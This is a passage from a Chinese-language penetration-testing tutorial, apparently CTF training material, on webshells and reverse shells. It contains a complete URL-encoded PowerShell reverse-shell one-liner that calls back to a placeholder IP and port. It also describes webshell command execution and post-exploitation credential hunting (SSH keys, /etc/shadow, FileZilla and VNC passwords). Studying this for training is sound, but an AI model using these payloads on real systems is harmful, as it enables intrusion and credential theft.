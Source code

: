 这意味着我们在URL 中的 " ?cmd= "之后输入的任何命令都将在系统上执行——无论是 Windows 还是 Linux。 " pre "元素是为了确保显示在网站页面上的结果的格式正确。

让我们看看实际情况:

![image-20221007220430749](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221007220430749.png)

请注意，当导航到shell.php页面时，我们在url中使用了带有" ifconfig "命令的 GET 参数" cmd "，然后正确地返回了目标的网络信息。

换句话说，通过在我们上传的shell.php页面的 URL 中输入 ifconfig 命令（该命令用于检查 Linux 目标上的网络接口），使得命令在系统上执行，并将结果返回给我们。 这适用于任何其他命令（例如 whoami、hostname、arch 等）。

如前所述，在 Kali 上默认有多种 webshell 可用，位于/usr/share/webshells路径下——包括臭名昭著的 PentestMonkey php-reverse-shell——一个用 PHP 编写的完整的反向 shell。

请注意，大多数通用的、特定语言的（例如 PHP）反向 shell 是为基于 Unix 的目标（例如 Linux 网络服务器）编写的，它们可能无法在 Windows 上运行。

> PentestMonkey反向shell 链接： https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

当目标是 Windows 时，通常使用 web shell 获取 RCE，或者使用 msfvenom 生成对应服务器语言的反向/绑定 shell。 前一种方法，通常是使用 URL 编码的 Powershell Reverse Shell 来获取 RCE。 这将作为前面提到的webshell中的cmd 参数复制到 URL 中：

```powershell
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```

这与我们在第8小节中遇到的powershell shell 相同，但是，它经过了 URL 编码，可以在 GET 参数中安全使用。 请记住，IP 和端口（以上内容中的IP、PORT）仍然需要在上面的代码中进行更改。

## 获取shell之后的操作

好了，我们有shell了，现在怎么办？

我们已经介绍了许多生成、发送和接收 shell 的方法，这些方法都有一个共同点，那就是得到的shell往往是不稳定的和非交互的。 即使是更容易稳定化的 Unix 风格的shell的稳定性也不是非常理想。 那么，我们能做些什么呢？

理想情况下，在 Linux 上，我们会接着寻找机会访问用户帐户，存储在`/home/<user>/.ssh`的 SSH 密钥通常是执行此操作的理想方式。

在 CTF 中，在目标机的某处发现密码凭证也不少见，一些漏洞exp还允许你添加自己的帐户，特别是像 Dirty C0w（脏牛漏洞） 或可写的 /etc/shadow 文件或 /etc/passwd文件会很快让你通过 SSH 来访问目标机器，假设目标机器的SSH服务是打开的。

> Dirty C0w（脏牛漏洞）介绍：https://dirtycow.ninja/

而在 Windows 上，可利用的选项通常更加有限，有时可以在注册表中找到运行服务的密码。例如，VNC 服务器经常将密码以明文形式存储在注册表中，某些版本的 FileZilla FTP 服务器还会在 XML 文件中保留登录凭据，可能保留凭据的文件路径是：

```shell
C:\Program Files\FileZilla Server\FileZilla Server.xml 
#或者
C:\xampp\FileZilla Server\FileZilla Server.xml

#这些凭据可以是MD5散列值，也可以是明文，具体取决于版本
```
